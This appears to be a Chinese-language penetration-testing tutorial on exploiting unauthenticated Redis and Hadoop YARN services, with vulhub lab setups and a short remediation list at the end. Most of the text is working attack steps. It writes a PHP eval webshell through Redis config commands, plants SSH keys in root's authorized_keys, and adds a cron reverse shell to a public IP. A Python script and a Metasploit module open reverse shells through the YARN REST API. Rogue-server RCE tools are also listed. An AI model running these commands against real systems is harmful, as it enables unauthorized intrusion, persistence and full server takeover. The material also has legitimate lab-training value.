

### 一、概述

*常见未授权访问漏洞： *

`Redis 未授权访问漏洞`

`Docker 未授权访问漏洞`

`MongoDB 未授权访问漏洞`

`Jenkins 未授权访问漏洞`

`Memcached 未授权访问漏洞`

`JBOSS 未授权访问漏洞`

`VNC 未授权访问漏洞`

`ZooKeeper 未授权访问漏洞`

`Rsync 未授权访问漏洞`

`Atlassian Crowd 未授权访问漏洞`

`CouchDB 未授权访问漏洞`

`Elasticsearch 未授权访问漏洞`

`Hadoop 未授权访问漏洞`

`Jupyter Notebook 未授权访问漏洞`

***

### 二、Redis未授权访问

<br/>

#### 1）常用命令

- 远程连接服务器：`redis-cli -h host -p port -a password`
- 添加或修改键值对：`set testkey "Hello World"`
- 获取键值对：`get testkey`
- 整数值自增1：`incr score`
- 列出当前数据库中的所有键：`keys *`
- 设置工作目录：`config set dir /home/test`
- 设置备份文件名：`config set dbfilename redis.rdb`
- 检查工作目录是否设置成功：`config get dir`
- 检查备份文件名是否设置成功：`config get dbfilename`
- 进行一次备份操作：`sava`
- 删除所有数据：`flushall`
- 删除指定键值对：`del key`

<br/>

#### 2）Redis历史漏洞

因为配置不当可以未经授权访问，攻击者无需认证就可以访问到内部数据

> a、当值敏感信息泄露

> b、执行flushall可清空所有数据

> c、通过数据备份功能往磁盘写入后门文件（webshell、定时任务）

> d、如果Redis以root身份运行，可以给root账户写入SSH公钥文件，免密码登录

> e、主从复制（在Redis4.x之后，Redis新增了模块功能，通过外部扩展，可以在redis中实现一个新的redis命令，通过c语言编译并加载恶意.so文件，达到代码执行的目的）

<br/>

#### 3）漏洞利用

<br/>

##### 搭建漏洞环境

*使用docker搭建redis环境*

`vim docker-compose.yml`

```text
version: '2'
services:
  # Redis未授权访问
  redis-unauth:
    image: registry.cn-hangzhou.aliyuncs.com/mingy123/redis-unauth:latest
    ports:
      - "6379:6379"
      - "8080:80"
      - "2222:22"
  # redis主从复制RCE
  redis-master-slave-copy:
    image: vulhub/redis:4.0.14
    ports:
      - "6378:6379"
```

`docker compose up -d`

<br/>

##### 利用方法思路

- 通过redis数据备份功能结合web服务，往web网站公募路写入一句话木马获取web网站权限
- 通过redis数据备份功能写定时任务，通过定时任务反弹shell
- 通过redis数据备份功能写ssh公钥，实现免密码登录linux服务器

<br/>

##### 案例操作步骤

**安装redis客户端**

`apt install redis-tools`

###### 写入webshell

<u>*前置条件需要知道web服务器目录路径，并且有写入权限*</u>

<u>*可以通过目录扫描工具爆破web服务器获得信息*</u>

写入木马文件：

```sh
redis-cli -h 10.0.0.102 -p 6379
config set dir /var/www/html
config set dbfilename shell.php
set x "<?php @eval($_POST['cmd']);?>"
save
```

getshell:



###### 写入ssh公钥

生成公钥：`ssh-keygen -t rsa`

将公钥添加空白行：`(echo -e "\n\n"; cat ~/.ssh/id_rsa.pub; echo -e "\n\n") > /tmp/foo.txt`  (添加空白行是为了将内容不混淆)

上传到目标redis服务：`cat /tmp/foo.txt | redis-cli -h 122.114.225.148 -p 6379 -x set m`

连接目标redis服务：`redis-cli -h 127.0.0.1 -p 6379`

设置工作目录：`config set dir /root/.ssh`

设置备份文件：`config set dbfilename "authorized_keys"`

保存备份：`save`

成功将公钥传入到目标主机目录即可远程连接：`ssh root@127.0.0.1 -p 2222`

<br/>

###### 写定时任务反弹shell

连接到目标redis服务：`redis-cli -h 127.0.0.1 -p 6379`

配置工作目录：`config set dir /var/spool/cron` (此目录为linux系统读取定时任务配置的目录)

配置备份文件：`config set dbfilename root` (将备份文件命名为root，linux系统以文件名区分不同用户的定时任务)

构造命令文本并：`set xxx "\n\n*/1 * * * * /bin/bash -i >& /dev/tcp/124.71.45.28/4433 0>&1\n\n"`

保存备份文件：`save`

<br/>

###### 主从复制

手动编译so扩展文件

```sh
cd /root/
git clone https://github.com/puckiestyle/RedisModules-ExecuteCommand
cd RedisModules-ExecuteCommand
make
```

利用redis主从复制RCE

利用工具：`https://github.com/puckiestyle/RedisModules-ExecuteCommand`

```
             `https://github.com/Ridter/redis-rce`

             `https://github.com/Dliv3/redis-rogue-server`

             `https://github.com/vulhub/redis-rogue-getshell`
```

<br/>

### 三、Hadoop未授权访问

Hadoop YARN（Yet Another Resource Negotiator）用于集群资源管理和作业调度，是Hadoop集群的资源管理系统。
YARN 提供有默认开放在8088和8090的REST API（默认8088）允许用户直接通过API进行相关的应用创建、任务提交执行等操作，如果配置不当可导致未授权访问的问题，攻击者无需认证即可通过REST API部署任务来执行任意指令，最终完全控制服务器。

##### 1）漏洞环境

使用docker-compose.yml

```text
version: '2'

services:
  namenode:
    image: vulhub/hadoop:2.8.1
    environment:
      - HDFS_CONF_dfs_namenode_name_dir=file:///hadoop/dfs/name
      - CLUSTER_NAME=vulhub
      - HDFS_CONF_dfs_replication=1
    command: /namenode.sh

  datanode:
    image: vulhub/hadoop:2.8.1
    environment:
      - HDFS_CONF_dfs_datanode_data_dir=file:///hadoop/dfs/data
      - CORE_CONF_fs_defaultFS=hdfs://namenode:8020
      - CLUSTER_NAME=vulhub
      - HDFS_CONF_dfs_replication=1
    command: /datanode.sh

  resourcemanager:
    image: vulhub/hadoop:2.8.1
    environment:
      - CORE_CONF_fs_defaultFS=hdfs://namenode:8020
      - YARN_CONF_yarn_log___aggregation___enable=true
    command: /resourcemanager.sh
    ports:
      - "8088:8088"

  nodemanager:
    image: vulhub/hadoop:2.8.1
    environment:
      - CORE_CONF_fs_defaultFS=hdfs://namenode:8020
      - YARN_CONF_yarn_resourcemanager_hostname=resourcemanager
      - YARN_CONF_yarn_log___aggregation___enable=true
      - YARN_CONF_yarn_nodemanager_remote___app___log___dir=/app-logs
    command: /nodemanager.sh
```

`docker compose up -d`

<br/>

##### 2）漏洞利用

*a.脚本利用*

```python
import requests
import json

target = 'http://192.168.81.127:8088/'
lhost = '192.168.81.238'

url = f'{target}ws/v1/cluster/apps/new-application'
resp = requests.post(url).content.decode('utf-8')
resp_json = json.loads(resp)

app_id = resp_json['application-id']
url = f'{target}ws/v1/cluster/apps'
data = {
    'application-id': app_id,
    'application-name': 'get-shell',
    'am-container-spec': {
        'commands': {'command': f'/bin/bash -i >& /dev/tcp/{lhost}/5566 0>&1'}
    },
    'application-type': 'YARN',
}
requests.post(url, json=data)
```

*b.模块利用*

```sh
msfconsole -q
use exploit/linux/http/hadoop_unauth_exec
set rhosts 192.168.81.127
set payload linux/x64/meterpreter/reverse_tcp
set lhost 192.168.81.238
set lport 5566
exploit
```

##### 3）漏洞复现

访问 http://ip:8088 即可看到 Hadoop YARN ResourceManager WebUI 页面（未授权访问漏洞）

a.监听端口等待shell反弹

`nc -lvvp 9999`

b.调用 New Application API 创建Application

POST请求http://ip://8088/ws/v1/cluster/apps/new-application，创建Application

4）漏洞发现

- fofa语句
  
  `app=APACHE-hadoop-YARN`
- poc批量检测
  
  向http://ip:port/ws/v1/cluster/apps/new-application 发送POST请求，如果响应返回application-id，则表明存在漏洞

5）修复漏洞

a.关闭Hadoop Web管理页面

b.开启身份验证，防止未经授权用户访问

c.设置“安全组”访问控制策略，将Hadoop默认开放的多个端口对公网全部静止或限制可信任的IP地址才能访问包括8088以及WebUI等相关端口
